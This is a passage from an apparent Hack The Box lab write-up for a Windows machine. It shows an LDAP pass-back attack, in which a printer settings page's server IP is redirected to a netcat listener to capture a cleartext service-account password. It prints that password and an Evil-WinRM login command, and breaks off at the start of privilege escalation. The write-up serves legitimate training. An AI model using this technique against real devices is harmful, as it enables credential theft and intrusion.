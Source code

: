 <img alt="Pasted image 20240416001509" src="https://github.com/iammR0OT/HTB/assets/74102381/19bd6c78-8f66-4363-8edb-ad088461816a">

On Settings.php endpoint there is some kind of ldap connection setting is running. There we found a user name. Password of the user was all asterisks which i thought at very first that the input type is password that's why we are seeing this but when i inspect that input filed, the type of the passowrd field is itself text. and all this is trying to connect with **printer.return.local** on port **389**.

<img  alt="Pasted image 20240416002336" src="https://github.com/iammR0OT/HTB/assets/74102381/239ad33f-71b6-4ae6-98ba-3aea5368e7b2">

When i intercept the request thorough burp proxy, only the IP filed was going in the request all the other username, port and password fields was not there.

<img alt="Pasted image 20240416003138" src="https://github.com/iammR0OT/HTB/assets/74102381/4330cc5c-52e0-4bef-aa21-ca580cfae247">

So i run a netcat listener on my machine and change the IP address with my attacker machine IP address on port 389 so that the request got captured on my listener. In response i got username and it's clear text password which was used for authentication in the bind request.

<img alt="Pasted image 20240416003648" src="https://github.com/iammR0OT/HTB/assets/74102381/e25de1b3-9efa-4904-8b09-9f9b1a476942">

```bash
svc-printer : 1edFg43012!!
```

### Shell as svc-printer

As we discovered through Nmap that the WinRM port 5985 is open, we can use a tool called **Evil-WinRM** to log in to the **svc-printer** account.

```bash
$ evil-winrm -i 10.129.95.241 -u 'svc-printer' -p '1edFg43012!!'
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

Our user flag is present on Desktop folder.

<img alt="Pasted image 20240416004258" src="https://github.com/iammR0OT/HTB/assets/74102381/59506577-cf35-4308-b00b-6509f875fd16">

# Privilege Escalation

Firstly, Let's check what  group of member  **svc-printer** user is.

```bash
$ net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All
```